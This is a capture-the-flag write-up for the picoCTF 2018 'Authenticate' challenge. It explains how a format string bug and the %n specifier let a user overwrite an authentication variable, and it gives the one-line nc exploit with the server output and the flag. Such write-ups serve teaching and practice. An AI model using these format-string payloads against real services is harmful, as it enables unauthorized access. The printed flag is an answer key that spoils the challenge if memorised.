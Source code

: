 # Authenticate

Can you authenticate to this [service](auth) and get the flag? Connect with `nc 2018shell.picoctf.com 52918`. [Source](auth.c).

## Solution
This was a format string vulnerability. Since the binary is not using ASLR, I used [radare2](https://github.com/radareorg/radare2) to find the address of the `authenticated` variable. I later discovered the `%n` format specifier writes the number of characters written so far to a signed int. This signed integer is passed in as a parameter. So using radare2 I discovered that the input string is `11 words (32-bit words)` away from the stack pointer. Thus I crafted an input string that would write, the number of characters written so far, to the `authenticated` integer.

Since the `authenticated` integer would no longer be zero, then `!authenticated` would evaluate to `true`.

### Exploit
Naturally the exploit then becomes:

```
$ echo -e '\x4c\xa0\x04\x08 %11$n' | nc 2018shell.picoctf.com 52918
Would you like to read the flag? (yes/no)
Received Unknown Input:

L 
Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}
```

